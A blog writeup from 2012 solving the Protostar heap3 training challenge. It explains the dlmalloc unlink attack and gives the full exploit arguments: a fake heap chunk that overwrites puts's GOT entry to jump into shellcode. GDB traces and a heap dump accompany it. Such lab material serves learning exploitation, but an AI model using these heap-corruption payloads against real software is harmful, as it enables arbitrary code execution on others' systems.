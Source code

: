 ```yaml
---
date: 2012-12-22 00:00:00-06:00
layout: post
title: Protostar heap3 solution / writeup
---
```


This is a writeup over protostar's heap3 exploitation challenge. Another member 
    wrote a writeup over this challenge as well, be sure to check that out as well :).

    We have 3 heap allocations: a, b and c. So on the heap we're going to have
    something similar to :

    [ a's header | data.... ] [ b's header | data.... ] [ c's header | data.... ]

    Given the 3 strcpy's, we can overwrite b and c however we choose. Since we're 
    using dlmalloc, and can completely control a chunk that is being free'd, we'll
    attack the UNLINK macro. This attack is written up completely in "Once upon a 
    free()" in phrack, http://www.phrack.org/issues.html?issue=57&id=9#article, so 
    this writeup is not a tutorial on the specific attack, rather it demonstrates 
    how to use the attack for this specific problem, heap3.

    We'll overwrite c's header data to unset c's PREV_INUSE flag, to trigger backwards
    consolidation. However, since we can't write null bytes, the previous size attribute
    of c will need to be negative value, 0xfffffff0. This will point relatively negative
    into c's data. So we'll trigger backwards consolidation, with a previous size of
    a negative value, pointing into c's data. This means we'll be creating a fake chunk
    inside of c's data.

    This fake chunk inside of c will have small values for the previous size and size
    attributes (setting the PREV_INUSE flag to 1, no more consolidation please), and
    the forward and backwards pointers will be completely in our control. This leverages
    the UNLINK macros :

      *(next->fd + 12) = next->bk
      *(next->bk + 8) = next->fd

    We will overwrite whatever forward+12 points to, with backward. However, then 
    backward+8 is overwritten with foward. *Important*, I originally just set :

    fw = GOT address of puts - 12
    bk = address of winner

    That works just fine, and puts will now call winner... *however*, winner+8 is a 
    function in the text section, we can't overwrite winner+8 with anything, because 
    this section of memory is not writeable. So... we can't point anything to winner, 
    because winner+8 is not writeable. Control flow must be sent to a writeable section of memory. Since we are already writting 3 buffers to the heap, which is writeable 
    (and executable in this case), and there is no ASLR, lets instead overwrite the 
    GOT address of puts with the address to one of our buffers. The buffer will then 
    have shellcode that calls winner.

    fw = GOT address fo puts - 12
    bk = address to shellcode inside of a's buffer

    The shellcode just needs one or two instructions, in this case I used : push address_of_winner, ret.

    Here is the overall diagram of what we'll be doing :


    The pieces of the puzzle we need :

    The GOT address of puts :

    user@protostar:/opt/protostar/bin$ objdump --dynamic-reloc ./heap3 | grep -i puts
    0804b128 R_386_JUMP_SLOT   puts

    The address of winner :

    (gdb) p winner
    $5 = {void (void)} 0x8048864 <winner>

    The shellcode we'll need :

    metasm > push 0x8048864
    "\x68\x64\x88\x04\x08"
    metasm > ret
    "\xc3"

    With all the pieces now, this is the exploit in action :

    # run the command
    (gdb) run $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')

    # the part of free that we are leveraging for the overwrites
    1: x/5i $eip
    0x80498fd <free+217>:   mov    DWORD PTR [eax+0xc],edx
    0x8049900 <free+220>:   mov    eax,DWORD PTR [ebp-0x18]
    0x8049903 <free+223>:   mov    edx,DWORD PTR [ebp-0x14]
    0x8049906 <free+226>:   mov    DWORD PTR [eax+0x8],edx
    0x8049909 <free+229>:   mov    eax,DWORD PTR [ebp-0x38]

    # eax points to the GOT address of puts
    (gdb) i r eax
    eax            0x804b11c        134525212
    (gdb) x/xw 0x804b11c+12
    0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:   0x08048796

    # edx points to our buffer inside of a
    (gdb) i r edx
    edx            0x804c00c        134529036
    # which contains the shellcode
    (gdb) x/2i 0x804c00c
    0x804c00c:      push   0x8048864
    0x804c011:      ret
    (gdb) c
    Continuing.

    Breakpoint 6, 0x08048935 in main (argc=4, argv=0xbffff7e4) at heap3/heap3.c:28
    28      heap3/heap3.c: No such file or directory.
            in heap3/heap3.c
    # we're about to call puts
    1: x/5i $eip
    0x8048935 <main+172>:   call   0x8048790 <puts@plt>
    0x804893a <main+177>:   leave
    0x804893b <main+178>:   ret
    0x804893c <malloc_init_state>:  push   ebp
    0x804893d <malloc_init_state+1>:        mov    ebp,esp

    # what the heap looks like
    (gdb) x/40xw 0x804c008-8
    0x804c000:      0x00000000      0x00000029      0x0804c028      0x04886468  # a gets mangled in the beggining, so the sc starts at 0x0804c00c
    0x804c010:      0x4141c308      0x0804b11c      0x41414141      0x41414141
    0x804c020:      0x41414141      0x41414141      0x00000000      0x00000029  # b starts
    0x804c030:      0x00000000      0x41414141      0x41414141      0x41414141
    0x804c040:      0x41414141      0x41414141      0x41414141      0xffffffec
    0x804c050:      0xfffffff0      0xfffffffc      0x41414141      0x41414141  # b overwrites c's headers
    0x804c060:      0xfffffff1      0xffffffed      0x0804b194      0x0804b194  # c contains a fake chunk, header + fw and bk pointers
    0x804c070:      0x41414141      0x41414141      0x00000000      0x00000f89
    0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

    Continuing.
    that wasn't too bad now, was it? @ 1325256074

    Program exited with code 056.

    # and outside of gdb
    user@protostar:/opt/protostar/bin$ ./heap3 $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')
    that wasn't too bad now, was it? @ 1325256161

    And a quick breakdown of the command used :

    arg1 = $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') 
    - some padding that will get mangle'd by free
    - shellcode
    - more padding (no real need for trailing A's
    arg2 = $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') 
    - padding to reach c's header
    - overwrite c's header
    arg3 = $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')
    - some padding
    - fake chunk header
    - fw
    - bk

    Happy exploiting :)
    Mitch
